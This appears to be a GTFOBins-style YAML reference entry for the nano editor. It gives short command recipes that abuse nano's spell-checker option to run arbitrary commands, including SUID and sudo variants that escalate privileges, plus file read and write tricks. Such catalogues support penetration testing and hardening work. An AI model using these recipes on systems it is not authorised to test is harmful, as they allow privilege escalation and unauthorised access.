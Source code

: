 ```yaml
---
functions:
  execute-non-interactive:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo "$COMMAND" > $TF
      chmod +x $TF
      nano -s $TF /etc/hosts
      ^T
  file-write:
  - code: |
      nano file_to_write
      ^O
  file-read:
  - code: 'nano file_to_read

'
  suid-enabled:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo $'#!/bin/sh -p\n'"$COMMAND" > $TF
      chmod +x $TF
      ./nano -s $TF /etc/hosts
      ^T
  sudo-enabled:
  - description: After running this exit the editor to see the command output.
    code: |
      COMMAND=id
      TF=$(mktemp)
      echo "$COMMAND" > $TF
      chmod +x $TF
      sudo nano -s $TF /etc/hosts
      ^T
---
```

